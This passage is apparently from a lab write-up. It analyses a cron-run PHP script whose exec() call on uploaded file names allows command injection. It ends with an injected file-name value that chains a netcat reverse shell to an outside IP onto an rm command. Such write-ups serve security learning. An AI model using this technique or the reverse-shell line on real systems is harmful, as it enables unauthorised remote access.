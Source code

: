 There's a crontab file `crontab.guly` that contains the following:

```
*/3 * * * * php /home/guly/check_attack.php
```

The crontab executes `check_attack.php` which I also have read access to:

```php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
	$msg='';
  if ($value == 'index.html') {
	continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}
```

The above code looks for files in `/var/www/html/uploads/` then runs the `getnameCheck` function from `lib.php` against the filename. When the filename fails the check, a logfile `/tmp/attack.log` is created and `$msg` is written to the file. `$msg` is set to null in the code so nothing will ever get written to that log file. The code then deletes any file that is invalid using `exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");`. This is where the command injection vulnerability lies.

The script uses the `exec()` function to pass the `/bin/rm` command instead of using of the native PHP function to delete files. The `$path` variable is set in the code and I can't control it but I can control the `$value` variable since it's the same of the invalid file in `/var/www/html/uploads/`. My goal here is to inject a command like the following: `nohup /bin/rm -f /var/www/html/uploads/; nc -e /bin/bash 10.10.14.11 5555 > /dev/null 2>&1 &`.
